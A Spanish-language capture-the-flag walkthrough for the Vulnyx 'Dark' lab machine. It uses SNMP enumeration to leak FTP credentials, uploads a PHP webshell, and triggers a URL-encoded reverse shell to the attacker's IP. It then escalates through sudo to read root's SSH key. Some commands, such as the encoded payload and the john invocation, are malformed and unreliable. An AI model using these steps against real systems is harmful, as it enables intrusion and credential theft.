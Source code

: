 ```markdown
# Vulnyx-Dark

## Reconocimiento

### Descubrir la IP de la víctima
```bash
arp-scan -I eth0 --localnet
# (IP-victima) 08:00:27:53:f0:2d   PCS Systemtechnik GmbH
```

### Escaneo de puertos
```bash
nmap -p 22,80,8000 -sS -sC -sV -n -Pn (IP-victima) -oN nmap
# 22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1
# 80/tcp   open  http    Apache httpd 2.4.56 (Debian)
# 8000/tcp open  ftp     pyftpdlib 1.5.7
```

### Escaneo UDP
```bash
nmap -sU -p- --min-rate 2000 -sV (IP-victima)
# 161/udp   open   snmp   net-snmp; net-snmp SNMPv3 server
```

## Enumeración SNMP (extraccion clave de comunidad)
```bash
onesixtyone -c /home/kali/wordlists666/common-snmp-community-strings-onesixtyone.txt (IP-victima)
# (IP-victima) [root] Linux dark 5.10.0-23-amd64
```

```bash
snmpwalk -v 2c -c root (IP-victima) | grep usr 
# iso.3.6.1.2.1.25.4.2.1.5.354 = STRING: "-c /usr/bin/python3 -m pyftpdlib -p 8000 -w -d /var/www/html/ -u frank -P my_FTP_is_c00l"
```

## Explotación FTP
```bash
ftp (IP-victima) -p 8000
# usr: frank
# pass: m*_***_**_***l
```

## Subida de Webshell
Subir una webshell PHP (`put webshell.php`) con el siguiente contenido:
```php
<?php
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

## Ejecución de Comandos
Acceder a la webshell desde el navegador:
```bash
http://(IP-victima)/webshell.php?cmd=whoami
# frank
```

## Reverse Shell
Inyectar un reverse shell:
```bash
http://(IP-victima)/webshell.php?cmd=%62%61%73%68%20%2d%63%20%225%62%361%73%68%20%2d%659%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%359%32%2e5%31%363%38%2e%32%30%304%2e%35%2f%34%34%33%20%3033e%26%31%22
```

## Obtener Acceso
```bash
nc -lvnp 443
# Acceso obtenido
```

## Escalada de Privilegios
```bash
script /dev/null -c bash
# (Ctrl + Z)
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

## Pivoteo de Usuarios
```bash
sudo -l
# (alan) NOPASSWD: /usr/bin/sh
(podemos tirarnos una bash como el usuario alan)
sudo -u alan /usr/bin/sh
whoami
# alan
```

## Escalada de Privilegios a Root
```bash
sudo -l
# (root) NOPASSWD: /usr/bin/most
(Al ejecutarlo vemos que podemos leer archivos como root.)
sudo /usr/bin/most /root/.ssh/id_rsa > /tmp/id_rsa.txt
cat /tmp/id_rsa.txt
# Contenido de id_rsa de root
```

## Acceso SSH como Root
```bash
nano id_rsa
#pegamos contenido de id_rsa root
ssh2john id_rsa > hash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa

ssh -i id_rsa root@(IP-victima)
# Contraseña: rootbeer
# Acceso concedido como root
```

Has logrado explotar el sistema y obtener acceso como root.
'''

